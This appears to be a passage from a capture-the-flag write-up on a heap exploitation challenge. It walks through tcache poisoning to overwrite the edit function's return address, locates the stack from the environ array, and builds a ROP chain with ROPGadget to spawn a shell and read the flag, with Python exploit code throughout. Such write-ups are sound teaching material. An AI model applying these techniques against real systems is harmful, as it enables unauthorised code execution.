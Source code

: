 Our first idea was to compute the offset from that array to the stack base, that would have allowed us to compute the offset of the main function or similar, and overwrite their return address with our ropchain.
Unfortunately after many tries we realized that it wasn't stable enough, even after building a nop slep to ease the exploit.
Luckily we realized that we didn't have to find the real stack base: is was enough to check if the ret of a known function was at a fixed offset from our referene point, the environ array.
Indeed it was, taking the edit function that we were targeting we noticed a fixed delta od `0x120` from it.

This led to the following exploit:
```python
# Fill the Tcache just to be sure
for i in range(7):
    alloc(i, 0x60) # different tcache for clarity
for i in range(7):
    free(i)

# Load the ret address of the edit function into the next pointer
edit(6,0x8,p64(stack_addr - 0x120))
alloc(0,0x60)
alloc(1,0x60)

# Now we write a bunch of BBBBBB just to trigger the segfault and check the exploit.
edit(1,0x8, b'B'*8)
```

Now that we can reliably hit the ret address it's time to build the rop chain.
After testing a combination of a gadget to clear rax and the one gadgets discovered before we decided to build the ropchain completely from scratch using ROPGadget:
```
ROPGadget --binary ./libc.so.6 --ropchain
```

This returned python code to build it but we needed to sum the libc base address:
```python
from struct import pack

# Padding goes here
p = b''

p += pack('<Q', libc.address + 0x0000000000001b96) # pop rdx ; ret
# [...]
p += pack('<Q', libc.address + 0x00000000000013bc) # syscall
# Repeat the instructions above but replace the last instruction with this one
edit(1,0xf00, p)

con.interactive()
```

And you get a shell:
```
ls
cat flag.txt
```
